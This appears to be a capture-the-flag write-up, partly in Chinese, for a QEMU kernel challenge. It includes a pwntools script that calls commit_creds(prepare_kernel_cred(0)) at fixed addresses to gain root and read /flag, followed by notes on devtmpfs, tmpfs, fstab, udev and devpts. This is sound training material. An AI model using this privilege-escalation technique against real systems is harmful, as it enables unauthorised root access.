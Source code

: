 run.sh:

```bash
qemu-system-x86_64 -monitor /dev/null -m 64 -nographic -kernel "bzImage" -initrd initrd.cpio -append "console=ttyS0 init='/init'"
```

- hint
  - You do not really need to exploit anything here
  - The flag file is not readable by your current user
  - You will need to become root to solve the challenge
  - There is a specific combination of kernel functions you will want to be using to escalate your privileges
  - We disabled Kernel ASLR in this case

沒有 `kaslr`，直接 `commit_creds(prepare_kernel_cred(0))` + `readfile("/flag")` 即可。

```python
#!/usr/bin/python3

from pwn import *

prepare_kernel_cred = 0xffffffff8104ee50 # 18446744071579168336
commit_creds = 0xffffffff8104e9d0 # 18446744071579167184

r = process(["bash", "-c", "./run.sh"])

# prepare_kernel_cred(0)
r.sendlineafter('> ', "1")
r.sendlineafter('> ', f"{prepare_kernel_cred}")
r.sendlineafter('> ', "0")
r.recvuntil("It is: ")
cred = int(r.recvline()[:-1], 16)

# commit_creds
r.sendlineafter('> ', "1")
r.sendlineafter('> ', f"{commit_creds}")
r.sendlineafter('> ', f"{cred}")

# read file
r.sendlineafter("> ", "3")
r.sendlineafter("> ", "/flag")
print(r.recvuntil("> "))
r.sendline("5")
sleep(1)
r.close()
```



- `devtmpfs`: 提供 linux kernel 啟動時建立一個暫時的 `/dev`，讓一般的 process 不用等 udev，因此能縮短開機的時間
  - Devtmpfs lets the kernel create a tmpfs very early at kernel initialization, before any driver core device is registered
  - Every device with a major/minor will have a device node created in this tmpfs instance
  - After the rootfs is mounted by the kernel, the populated tmpfs is mounted at /dev
  - In initramfs, it can be moved to the manually mounted root filesystem before /sbin/init is executed
  - `mount -t devtmpfs none /dev`
- `tmpfs`: 使用 memory 作為暫時的 fs
  - 因為是在記憶體內操作，能加快速度
  - 相較之下，ramdisk 為 block device，使用前仍需要 format (mkfs)
- `fstab`: 在開機時能自動掛載的設定檔
  - 一般位於 `/etc/fstab`
- `udev`: 為 linux device manager，負責管理 `/dev`
  - an automounter to handle the hot swapping of devices (e.g. MP3 player)
- `devpts`: pseudo fs，一般 mount 在 `/dev/pts`，與 pseudo terminal (pty) 相關
  - pty: pseudo-teletype